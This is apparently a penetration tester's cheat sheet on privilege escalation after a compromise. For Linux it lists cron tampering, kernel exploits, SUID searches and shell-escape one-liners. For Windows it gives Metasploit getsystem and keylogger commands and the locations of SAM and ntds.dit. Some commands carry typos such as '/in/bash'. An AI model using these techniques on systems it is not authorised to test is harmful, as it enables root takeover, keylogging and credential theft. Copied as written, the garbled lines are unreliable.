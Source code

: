 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

Cron.d | Write a file to cron.d and wait for restart
Cron files  | Can any of the cron files be tampered with
Kernal Exploit |  <code> Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection
Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | tbd
check sudo permissions | sudo -l

**setuid permissions**
 
{% highlight bash %}
sudo vi :shell
less (press v - launching vi) :shell
more  ?,  !bash
cp or mv
find . -exec bash -i \;
Script interpeters
perl exec ""/bin/bash"";<ctrl-d>
ruby exec ""bin/bash""
python import os os.system('/in/bash')
nano 
{% endhighlight %}

>**Windows**

Metasploit | use priv, getsystem -n [number]
Metasploit keylogger | keyscan_start, keyscan_stop, keyscan_dump
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin


